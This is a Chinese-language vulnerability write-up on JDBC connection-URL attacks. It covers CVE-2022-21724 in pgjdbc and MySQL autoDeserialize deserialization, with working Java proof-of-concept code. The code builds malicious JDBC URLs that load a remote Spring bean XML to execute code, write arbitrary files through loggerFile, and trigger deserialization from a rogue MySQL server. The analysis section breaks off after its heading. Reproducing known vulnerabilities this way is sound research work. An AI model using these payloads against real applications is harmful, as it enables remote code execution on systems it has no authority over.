


# 漏洞简介
JDBC Java 数据库连接，(Java Database Connectivity)是 Java 语言中用来规范客户端如何访问数据库的应用程序接口，具体讲就是通过 Java 连接广泛数据库，并对表中数据执行增、删、改、查等操作的技术。 当程序中 JDBC 连接 URL 可控时，可能会造成安全问题。比较具有代表性的就是 JDBC 反序列化漏洞，是在于 mysql 数据库连接时产生的。

## CVE-2022-21724 
CVE-2022-21724是在 PostgreSQL 数据库的 jdbc 驱动程序中发现一个安全漏洞，当攻击者控制 jdbc url 或者属性时，使用 PostgreSQL 数据库的系统将受到攻击。 pgjdbc 根据通过 authenticationPluginClassName、sslhostnameverifier、socketFactory 、sslfactory、sslpasswordcallback 连接属性提供类名实例化插件实例。但是，驱动程序在实例化类之前没有验证类是否实现了预期的接口。这可能导致通过任意类加载远程代码执行。

影响范围：
* 9.4.1208 <=PgJDBC <42.2.25
* 42.3.0 <=PgJDBC < 42.3.2

## mysql 

来自[《New Exploit Technique In Java Deserialization Attack》](https://i.blackhat.com/eu-19/Thursday/eu-19-Zhang-New-Exploit-Technique-In-Java-Deserialization-Attack.pdf).
该漏洞需要能够控制客户端的JDBC连接串，在连接阶段即可触发，无需继续执行SQL语句。

# 漏洞复现

## CVE-2022-21724
创建 maven 项目，添加依赖:
```xml
<dependency>
            <groupId>org.postgresql</groupId>
            <artifactId>postgresql</artifactId>
            <version>42.3.1</version>
        </dependency>
        <!-- https://mvnrepository.com/artifact/org.springframework/spring-context-support -->
        <dependency>
            <groupId>org.springframework</groupId>
            <artifactId>spring-context-support</artifactId>
            <version>5.3.23</version>
        </dependency>
```

编写测试代码:
```java
public class CVE202221724 {
    public static void main(String[] args) throws SQLException {
        String socketFactoryClass = "org.springframework.context.support.ClassPathXmlApplicationContext";
        String socketFactoryArg = "http://127.0.0.1:8888/bean.xml";

        //socketFactory/socketFactoryArg 导致RCE
        String jdbcUrl = "jdbc:postgresql://127.0.0.1:55531/test/?socketFactory="+socketFactoryClass+ "&socketFactoryArg="+socketFactoryArg;
        Connection connection = DriverManager.getConnection(jdbcUrl);

        // sslfactory/sslfactoryarg 导致RCE:建立连接之后需要server返回一个S开头的字符串才可以触发org.postgresql.ssl.MakeSSL#convert
        String jdbcUrl1 = "jdbc:postgresql://127.0.0.1:55532/test/?user=postgres&sslfactory="+socketFactoryClass+ "&sslfactoryarg="+socketFactoryArg;

        Connection connection1 = DriverManager.getConnection(jdbcUrl1);

        //  loggerLevel/loggerFile 参数 任意文件写入

        String loggerLevel = "debug";
        String loggerFile = "test.txt";
        String shellContent="you are hacked!!";
        String jdbcUrl2 = "jdbc:postgresql://127.0.0.1:55533/test?loggerLevel="+loggerLevel+"&loggerFile="+loggerFile+ "&"+shellContent;
        Connection connection2 = DriverManager.getConnection(jdbcUrl2);
    }
}
```

## mysql　

需要搭建恶意的mysql_server,参考:[mysql_server.py](https://xz.aliyun.com/t/8159)

测试代码如下:

```java
public class MySQLClientVul {
    public static void main(String[] args) throws Exception{
        String driver = "com.mysql.cj.jdbc.Driver";
        String DB_URL = "jdbc:mysql://127.0.0.1:3309/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor";//8.x使用
        //String DB_URL = "jdbc:mysql://127.0.0.1:3306/test?detectCustomCollations=true&autoDeserialize=true";//5.x使用
        Class.forName(driver);
        Connection conn = DriverManager.getConnection(DB_URL);
    }
}
```

# 漏洞分析

## CVE-2022-21724



整体流程如下：




